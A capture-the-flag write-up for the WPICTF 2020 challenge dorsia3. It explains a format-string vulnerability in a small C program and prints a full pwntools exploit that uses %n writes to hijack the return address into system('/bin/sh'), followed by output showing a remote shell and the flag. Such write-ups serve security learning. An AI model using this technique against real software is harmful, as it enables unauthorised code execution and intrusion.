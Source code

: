 ```yaml
---
title: Dorsia3 without gadgets (WPICTF 2020)
categories: [ctf, writeup]
---
```


### Why this writeup?

After the end of WPICTF, I looked at writeups so see how people solved
different challenges, and realised that for dorsia1 and dorsia3, people had
used a completely different approach, using magic gadgets, than the one I took,
so I thought I would share what I did.

### dorsia3 250pts (55 solves)

#### Challenge Description:

```
http://us-east-1.linodeobjects.com/wpictf-challenge-files/dorsia.webm The third card.

nc dorsia3.wpictf.xyz 31337 or 31338 or 31339

made by: awg
```

#### Attachments

* [`nanoprint`][0]
* [`libc.so.6`][1]

The third card on the video shows the following code:

```c
#include <stdio.h>
#include <stdlib.h>

void main() {
	char a[69];
	printf("%p%p\n", a, system - 288);
	fgets(a, 69, stdin);
	printf(a, "%s\n");
}
```

Because, the program is printing untrusted user input with `printf`, a format
string vulnerability can be exploited. We are also given the address of the
buffer and the `system` function.

With some local testing, with GDB, I realised that the return address was 113
bytes after the address of the buffer `a`. `%n` will set the number of bytes
written to the address pointed to by the pointed given as argument. So what we
do, is we set the address of system, where the return pointer is and then set
a pointer to `/bin/sh`, where system expects to find its first argument, in my
case that was 121 bytes after the location of `a`.

#### The final exploit:

```python
#!/usr/bin/env python

from pwn import *

if False: # if True, run the exploit locally, otherwise, run it remotely
    r = process("./nanoprint")
    libc = ELF("/usr/lib32/libc.so.6")
else:
    r = remote('dorsia3.wpictf.xyz', 31337)
    libc = ELF("./libc.so.6")

line = r.recvline().decode()
# Read the address of `a` and `system`
a = int(line[:10], 16)
system = int(line[10:], 16) + 288

libc.address = system - libc.symbols['system']

bin_sh = next(libc.search(b'/bin/sh'))

lsb_sys = system & 0xffff
msb_sys = system >> 16
lsb_sh = bin_sh & 0xffff
msb_sh = bin_sh >> 16
values = [
        (lsb_sys, 7),
        (msb_sys, 8),
        (lsb_sh, 9),
        (msb_sh, 10)
        ]

values = sorted(values)

# A 1 byte padding is needed so that printf uses the correct arguments
payload = b"A"
payload += p32(a + 113)
payload += p32(a + 115)
payload += p32(a + 121)
payload += p32(a + 123)

written = 17 # 4 * 4 + 1; 4 bytes for each address and 1 byte for the "A"
for value in values:
    payload += f"%{value[0] - written}x".encode()
    written = value[0]
    payload += f"%{value[1]}$n".encode()
r.sendline(payload)
r.recvline() # The output of `printf`
r.interactive()
```

I trick I used, which I doubt the usefulness of is sorting the addresses I need
to write to by the value they should have. This in theory means that less data
has to be sent back when `printf` is executed on the server side. However it is
not necessary.

Initially, I tried to use a `/bin/sh` that was inside of `a` however, that
failed so I fell back to using one inside of libc.

After running the exploit, we get a shell on the target, running `ls` reveals
that the flag is in the current directory and we can now just `cat` it:

```
$ ./exploit.py
[+] Opening connection to dorsia3.wpictf.xyz on port 31337: Done
[*] 'wpictf_2020/dorsia3/libc.so.6'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Switching to interactive mode
$ ls
flag.txt
nanoprint
run_problem.sh
stdbuf
$ cat flag.txt
WPI{Th3re_is_an_idea_of_4_Pa7rick_BatemaN}
```

This however, isn't the easiest way to solve the challenge as it is takes more
time. If you haven't already, I'd recommend reading [other write-ups][2] as
well to explore the different methods that can be used.

[0]: https://ctf.wpictf.xyz/files/4d325258ec2ab3df5383833fb30fe8aa/nanoprint?token=eyJ1c2VyX2lkIjo2NzQsInRlYW1faWQiOjM4OCwiZmlsZV9pZCI6MTR9.Xp3VIg.mDHcGNvi4W0KGbA3cKtCHwYKc0E
[1]: https://ctf.wpictf.xyz/files/fe7a59ebaa5fc5e00deae6553bce0677/libc.so.6?token=eyJ1c2VyX2lkIjo2NzQsInRlYW1faWQiOjM4OCwiZmlsZV9pZCI6MTV9.Xp3VIg.Z7c2-xFMKP-lfla8wamuBuImt0Y
[2]: https://ctftime.org/task/11316

